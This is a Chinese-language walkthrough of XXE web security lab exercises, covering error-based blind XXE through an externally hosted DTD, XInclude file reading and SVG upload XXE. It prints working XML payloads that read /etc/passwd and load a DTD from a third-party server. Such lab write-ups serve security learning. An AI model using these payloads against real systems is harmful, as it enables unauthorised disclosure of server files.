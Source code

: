 进入实验环境，从官方提示可以知道，注入XML语句后结果不会回显，并且需要使用到第三方的服务器。进入后一番简单的抓包发现目标页面：

![image-20221108093644748](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221108093644748.png)

点击此处进入官方提供的第三方利用服务器

![image-20221108093735349](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221108093735349.png)

构造好payload并点击 view exploit 保存该URL地址：payload 如下：

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```



 

![image-20221108093936501](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221108093936501.png)

进入burp可利用功能点处抓的包，然后输入构造好的payload：可以看见结果被包含在了错误信息中显示在屏幕上。payload如下：

```dtd
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```



![image-20221108094150815](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221108094150815.png)

**通关成功**

## Lab: Exploiting XInclude to retrieve files

根据官方提示在一个“Check stock”功能处，它将用户输入数据嵌入到服务器端XML文档中，然后进行解析。或许在这可以进行XXE攻击

![image-20221108092131365](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221108092131365.png)

成功找到该功能点，讲真要不是官方提示，这里很难看出有XXE了吧

![image-20221108092456934](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221108092456934.png)

测试后发现一般的XXE攻击显然不凑效。尝试xinclude：成功读取到目标内容。

![image-20221108093054255](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221108093054255.png)

**实际上在测试过程中，当发现我们可控xml文本内容，但是引入外部实体无效或是存在过滤，尝试编码绕过也不行的时候，那么可以尝试使用xinclude**

**通关成功！**

## Lab: Exploiting XXE via image file upload

简单看一下要求，就是说在上传图片的地方也可以使用XXE攻击，因为 SVG 图像格式也含有xml内容，而一般 SVG 图像格式不被后端所拦截。

![image-20221108160428327](https://raw.githubusercontent.com/shungli923/PicGoImg/master/image-20221108160428327.png)


[这里查看原理]: https://github.com/shungli923/WowBigBug/blob/main/%E5%9F%BA%E7%A1%80%E6%BC%8F%E6%B4%9E/XXE.md	"点击"